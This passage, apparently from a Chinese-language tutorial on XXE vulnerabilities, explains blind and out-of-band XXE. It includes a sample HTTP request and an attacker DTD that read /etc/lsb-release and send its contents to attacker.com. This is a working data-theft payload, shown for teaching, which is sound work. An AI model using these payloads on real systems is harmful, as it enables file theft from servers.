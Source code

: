 ```java
                }
            }
            sr.close();
            System.out.println(result.toString());
            return result.toString();
        } catch (Exception e) {
            System.out.println(e);
            return "except";
        }
    }
```



## 6.Blind XXE

### 6.1Blind XXE与OOB-XXE

一般xxe利用分为两大场景：有回显和无回显。有回显的情况可以直接在页面中看到Payload的执行结果或现象（**带内** [XML外部实体（XXE](https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/)），即攻击者可以发送带有XXE有效负载的请求并从包含某些数据的Web应用程序获取响应），无回显的情况又称为blind xxe，可以使用外带数据通道提取数据即带外XML外部实体（OOB-XXE）。

以下是攻击者如何利用参数实体使用带外（OOB）技术窃取数据的示例。 

request:

```
POST http://example.com/xml HTTP/1.1

<!DOCTYPE data [
  <!ENTITY % file SYSTEM
  "file:///etc/lsb-release">
  <!ENTITY % dtd SYSTEM
  "http://attacker.com/evil.dtd">
  %dtd;
]>
<data>&send;</data>

```

 攻击者DTD

```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?collect=%file;'>">
%all;

```

XML解析器将首先处理`%file`加载文件的参数实体`/etc/lsb-release`。接下来，XML解析器将在**http://attacker.com/evil.dtd**向攻击者的DTD发出请求。

一旦处理了攻击者的DTD，`all%`参数实体将创建一个名为**＆send**的**通用**实体**;** ，其中包含一个包含文件内容的URL（例如http://attacker.com/?collect=DISTRIB_ID=Ubuntu ...）。最后，一旦URL构造的`&send`; 实体由解析器处理，解析器向攻击者的服务器发出请求。然后，攻击者可以在其结尾处记录请求，并从记录的请求中重建文件的内容。
